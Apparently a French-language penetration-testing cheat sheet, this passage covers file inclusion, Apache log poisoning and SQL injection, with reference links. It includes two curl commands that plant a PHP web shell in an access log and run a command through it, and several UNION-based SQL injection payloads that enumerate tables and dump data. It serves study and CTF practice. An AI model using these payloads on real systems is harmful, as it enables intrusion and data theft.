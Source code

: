## File Inclusion (Upload, LFI, RFI)

- https://www.clever-age.com/owasp-local-remote-file-inclusion-lfi-rfi/
- https://humbertojunior.com.br/infosec/pentest/2021/02/16/lfi-parameters.html
- https://www.nc-lp.com/blog/disguise-phar-packages-as-images
- https://phil242.wordpress.com/2014/02/23/la-png-qui-se-prenait-pour-du-php/

`Protection`: 

```php
<?php
$file = basename(realpath($_GET["filename"]));
include("pages/$file");
?>
```

et `.htaccess`

`allow_url_include = Off` pour PHP<7.4.0

### Apache Log Poisoning

- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/apache

```bash
curl http://example.org/ -A "<?php system(\$_GET['cmd']);?>"
curl http://example.org/test.php?page=/var/log/apache2/access.log&cmd=id
```

## SQLi

- https://mariadb.com/resources/blog/how-to-connect-python-programs-to-mariadb/
- https://gonzalo123.com/2021/10/25/listen-to-postgresql-events-with-pg_notify-and-python/

BEUST: Blind,Error,Union,Stacked,Time-based

  - https://zestedesavoir.com/tutoriels/945/les-injections-sql-le-tutoriel/
  - https://pentestmonkey.net/cheat-sheet/sql-injection/
  - https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/
  - https://www.invicti.com/blog/web-security/fragmented-sql-injection-attacks/
  - https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/
  - https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-with-sqlmap/

`Union classic`:

```sql
' union select 0,0,0,0 #

' union select 0,0,table_name,0 from information_schema.tables #

' union select 0,0,column_name,0 from information_schema.columns where table_name='chall' #

 ' union select id, origine, message, 0 from chall #
```

### Pagination

